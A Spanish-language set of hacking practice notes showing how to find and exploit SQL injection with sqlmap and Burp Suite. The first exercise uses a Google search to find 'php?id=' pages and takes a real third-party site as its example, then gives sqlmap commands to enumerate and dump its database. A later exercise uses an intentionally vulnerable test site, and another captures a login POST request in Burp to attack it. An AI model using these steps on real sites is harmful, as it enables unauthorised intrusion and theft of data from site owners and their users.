


PRACTICA 1 (GET)

- Abrimos el navegador y vamos a Google.com
- Buscamos **php?id=1** y elegimos alguno de los resultados

EJEMPLO: <https://www.burobd.org/network-and-linkages.php?id=8>

- Y para saber si el sitio es vulnerable al final de la URL agregamos ‘
- Si es vulnerable nos debe mandar un error relacionado a “Error SQL Syntax”

- Si es así copiamos el enlace original de la página y en la terminal ejecutamos:

**_sqlmap -u &lt;URL&gt; --dbs_**

- Al final del análisis se nos mostraran las BD disponibles, en nuestro ejemplo nos interesa burobd_bd_2025 por lo que ejecutamos:

**_sqlmap -u &lt;URL&gt; -D &lt;BDName&gt; --tables_**

- Obtenidas las tablas ahora queremos mostrar el contenido de una de ellas:
- **_sqlmap -u &lt;URL&gt; -D &lt;BDName&gt; -T &lt;tableName&gt; --columns_**
- Y ahora volcaremos estas columnas que elegiremos a nuestra maquina

**_sqlmap -u &lt;URL&gt; -D &lt;BDName&gt; -T &lt;tableName&gt; -C &lt;col1,col2,etc&gt; --dump_**

- Copiamos la dirección donde se nos guardó el volcado y en otra terminal lo abrimos con leafpad

**_leafpad &lt;UBICACION&gt;_**

- Veremos los datos obtenidos de la tabla en la base de datos

PRACTICA 2 (GET)

- Vamos a ir a un sitio web intencionalmente vulnerable

**_testphp.vulnweb.com/index.php_**

- Navegamos un poco en la web y copiamos una de sus URL
- Y en la terminal podemos hacer lo mismo que en la PRACTICA 1

PRACTICA 3 (POST)

- Abrimos Burp Suite, seleccionamos un proyecto temporal, lo iniciamos y en Proxy>Intercept>Intercept On
- Y ahora redirigiremos el tráfico configurando nuestro PROXY en el

navegador>Ajustes/Preferencias>Proxy>Settings>Manual proxy

- - HTTP Proxy: 127.0.0.1
    - Port: 8080
    - HTTPS Proxy:127.0.0.1
    - Port: 8080
- Abrimos en Burp los Proxy Settings>Export CA Certificate>Certificate in DER format
- Guardamos el documento en el escritorio con la extensión .der
- Abrimos el navegador>Ajustes>Certificates>View>Authorities>import
- Seleccionamos nuestro documento antes guardado y se habrá importado el certificado
- Y ahora todo el tráfico ira al servidor proxy antes que llegue a internet
- Nos vamos a una página vulnerable o que use POST(Login)
- Tratamos de logearnos con datos aleatorios
- Abrimos Burp Suite y nos vamos a HTTP History
- Buscamos el host al que entramos antes con POST, seleccionamos y en la parte inferior tendremos más información que seleccionaremos completamente, clic derecho y Copy To File
- Guardaremos el texto como sqli.txt y abriremos la terminal
- Ejecutamos **_sqlmap -r &lt;ubicacionDeNuestroTxt&gt;_**
- Comenzaremos a buscar vulnerabilidades como en la PRACTICA 1 y 2 para tratar de obtener la BD

EXTRAS (Pruebas a otras Paginas)

